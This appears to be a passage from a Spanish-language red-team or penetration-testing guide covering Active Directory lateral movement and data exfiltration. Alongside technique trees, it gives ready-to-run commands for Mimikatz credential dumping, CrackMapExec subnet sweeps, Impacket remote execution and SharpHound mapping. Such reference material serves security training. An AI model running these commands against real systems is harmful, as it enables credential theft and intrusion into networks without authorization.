 #### Técnicas de Lateral Movement
```
Lateral Movement Techniques:
├── Credential-based Movement
│   ├── Pass-the-Hash (PtH)
│   ├── Pass-the-Ticket (PtT)
│   ├── Golden Ticket attacks
│   └── Silver Ticket attacks
├── Remote Access Techniques
│   ├── RDP (Remote Desktop Protocol)
│   ├── WinRM (Windows Remote Management)
│   ├── SSH (Secure Shell)
│   └── VNC (Virtual Network Computing)
├── Service Exploitation
│   ├── SMB exploitation
│   ├── WMI execution
│   ├── DCOM exploitation
│   └── PowerShell remoting
└── Living off the Land
    ├── PSExec alternatives
    └── Native OS tools
```

#### Herramientas de Lateral Movement
```bash
# Mimikatz credential extraction
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# CrackMapExec network scanning
crackmapexec smb 192.168.1.0/24 -u username -p password

# Impacket tools
psexec.py domain/username:password@target.com
smbexec.py domain/username:password@target.com
wmiexec.py domain/username:password@target.com

# BloodHound Active Directory mapping
SharpHound.exe -c All
```

### Data Exfiltration

#### Métodos de Exfiltración
```
Data Exfiltration Methods:
├── Network-based Exfiltration
│   ├── HTTP/HTTPS tunneling
│   ├── DNS tunneling
│   ├── FTP/SFTP transfer
│   └── Cloud storage upload
├── Physical Exfiltration
│   ├── USB devices
│   ├── CD/DVD burning
│   ├── Network attached storage
│   └── Mobile devices
├── Covert Channels
│   ├── Steganography
│   ├── Protocol tunneling
│   ├── Timing channels
│   └── Storage channels
└── Email Exfiltration
    ├── Webmail services
    └── SMTP tunneling
```
